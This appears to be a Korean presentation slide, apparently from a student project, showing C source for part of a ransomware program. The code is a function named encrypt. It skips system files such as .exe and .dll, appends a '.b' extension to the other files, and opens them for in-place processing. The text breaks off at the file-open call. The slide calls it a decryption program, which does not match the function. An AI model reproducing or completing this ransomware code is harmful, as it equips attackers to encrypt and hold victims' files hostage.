

02 랜섬웨어 프로그램
-#2 복호화 프로그램
#2-1 확장자명 바꾸기
int encrypt(char *filename, char *filepath) // 확장자명 변경 함수
{
   if (strstr(filename, ".exe") != 0 || strstr(filename, ".dll") || strstr(filename, ".ini") || strstr(filename, ".dat") || strstr(filename, ".ocx")) // exe, dll, ini, dat ,ocx파일이
   {
      findfile(filename); // 파일을 탐색하는 함수
      return -1;
   }
   char filefullname[1000], filenewname[1000]; //fullname은 원래 확장명 변수, newname은 바꿀 확장자명 변수
   sprintf(filefullname, "%s/%s", filepath, filename); // 확장자를 바꾸려는 파일이 있는 경로와 파일이름을 저장
   if (strstr(filename, ".") != NULL){ // 확장자를 바꾸려는 파일에 .이 있는 경우
      sprintf(filenewname, "%s.b", filefullname); // filenewname에 확장자명을 바꿀 확장자를 저장
      rename(filefullname, filenewname); // 원래 기존 확장자를 바꿀 확장자명으로 바꾸는 함수
   }
   else
      sprintf(filenewname, "%s", filefullname); // 파일에 . 이 없으면 원래 파일이름을 저장

   char data[1024];
   unsigned int read_size, i; // 파일 사이즈를 저장하는 변수
   long frpos, fwpos; // 파일 위치를 저장하는 변수
   FILE *fp;
   fp = fopen(filenewname, "r+b"); // fp는